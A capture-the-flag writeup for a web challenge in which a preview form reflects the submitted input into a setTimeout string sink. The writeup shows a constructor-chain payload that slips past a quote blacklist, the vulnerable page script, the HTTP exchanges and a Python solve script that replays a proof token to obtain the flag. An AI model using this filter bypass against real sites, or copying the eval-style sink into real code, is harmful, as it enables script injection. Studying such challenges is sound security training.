

# Neon Mirage - 0xV01D CTF 2026 writeup

## Challenge Description
> A support preview console tries to keep input harmless while still being useful to operators. Make the interface show what it was not meant to reveal.

> **Hint:** `javascript constructor`

---

## TL;DR

The app reflects our `payload` into a client-side JavaScript sink:

```js
setTimeout(expression, 0);
```

A blacklist blocks obvious payloads, but it still allows a constructor-chain escape:

```js
[].constructor.constructor(`return 7`)()
```

That payload executes successfully in the browser, which causes the page to submit a hidden `proof` token back to the server. Replaying that proof in the same session reveals the flag.

**Flag:**

```text
0xV01D{747a8bf5-9a13-46d4-8f5d-033b85643250}
```

---

## Concept Map



---

## What We Have

We start with a single web page that contains:

- one input field: `payload`
- one submit button: `Preview`
- no obvious external JavaScript files
- a hint: `javascript constructor`

At first glance, it looks like a “safe expression preview” form. The important detail is that the page behavior changes depending on what we submit.

---

## Initial Recon

Trying simple inputs gives different validation messages:

```text
1
1+1
"abc"
Function("return 7")()
[].constructor.constructor(`return 7`)()
```

Typical responses include:

- `The preview engine only accepts a single ticket expression.`
- `Blocked by the ticket sanitizer.`
- `Blocked: forbidden character detected.`

That tells us:

- there is a **blacklist**
- there is some kind of **expression validation**
- direct `Function("...")` payloads are blocked
- quotes are filtered
- backticks are more interesting

---

## Why the Hint Matters

The hint points directly at a classic JavaScript trick:

```js
[].constructor.constructor(...)
```

This works because:

- `[]` is an array
- `[].constructor` is `Array`
- `[].constructor.constructor` is `Function`

So this:

```js
[].constructor.constructor(`return 7`)()
```

is effectively:

```js
Function(`return 7`)()
```

That gives us code execution without needing blocked quote characters.

---

## The Real Bug

The key mistake is not just “unsafe parsing.” The real issue is that the server reflects our payload into a client-side JavaScript sink.

After submitting a working payload, the returned HTML contains:

```html
<script>
(function () {
    const expression = "[].constructor.constructor(`return 7`)()";
    const proof = "90c018ef5e351949dedab676f0f35bbe";

    try {
        setTimeout(expression, 0);

        const body = new URLSearchParams();
        body.set('proof', proof);

        fetch(window.location.pathname, {
            method: 'POST',
            headers: {'Content-Type': 'application/x-www-form-urlencoded'},
            body: body.toString()
        })
        .then(response => response.json())
        .then(data => {
            if (data.ok) {
                window.location.href = window.location.pathname;
            }
        });
    } catch (e) {
        console.log('Preview rejected by the browser runtime.');
    }
})();
</script>
```

The critical line is:

```js
setTimeout(expression, 0);
```

Passing a string into `setTimeout` makes the browser evaluate it as code. So the app is effectively doing a client-side `eval`.

---

## Exploitation

### Working payload

```js
[].constructor.constructor(`return 7`)()
```

This is enough to make the browser accept and execute the expression.

### Why it works

- it avoids blocked quotes by using backticks
- it uses the constructor chain to reach `Function`
- it stays as a single expression
- it passes through the weak filter
- it executes when inserted into `setTimeout(expression, 0)`

---

## Server / Player Interaction

### 1. Submit payload

```http
POST / HTTP/1.1
Host: multiflora_rose-5d5720ab.challs.0xv01d-ctf.xyz
Content-Type: application/x-www-form-urlencoded

payload=[].constructor.constructor(`return 7`)()
```

### 2. Server returns page with proof token

Relevant part:

```js
const proof = "90c018ef5e351949dedab676f0f35bbe";
```

### 3. Browser submits proof automatically

```http
POST / HTTP/1.1
Host: multiflora_rose-5d5720ab.challs.0xv01d-ctf.xyz
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=...

proof=90c018ef5e351949dedab676f0f35bbe
```

### 4. Server confirms success

```json
{"ok":true}
```

### 5. Reload page and get flag

```html
<div class="flag">FLAG: 0xV01D{747a8bf5-9a13-46d4-8f5d-033b85643250}</div>
```

---

## Solve Script

```python
import re
import requests

s = requests.Session()
url = "http://multiflora_rose-5d5720ab.challs.0xv01d-ctf.xyz/"
payload = "[].constructor.constructor(`return 7`)()"

r = s.post(url, data={"payload": payload}, timeout=10)

proof = re.search(r'const proof = "([0-9a-f]+)"', r.text).group(1)
print("[+] proof:", proof)

r2 = s.post(url, data={"proof": proof}, timeout=10)
print("[+] proof response:", r2.text)

r3 = s.get(url, timeout=10)

flag = re.search(r'0xV01D\{[^}]+\}', r3.text)
if flag:
    print("[+] flag:", flag.group(0))
else:
    print("[-] flag not found")
```

---

## Flag Recovery

Running the exploit flow reveals:

```text
0xV01D{747a8bf5-9a13-46d4-8f5d-033b85643250}
```

---

## What We Learned

- Blacklists are weak protection against JavaScript injection.
- `setTimeout(string, ...)` is an execution sink and should be treated like `eval`.
- Constructor chains such as `[].constructor.constructor(...)` are powerful filter bypasses.
- Backticks are often forgotten in quote-based sanitizers.
- When behavior seems “server-side,” always inspect the returned HTML for hidden client-side logic.
- Session-bound proof flows can often be replayed once the intended browser action is understood.
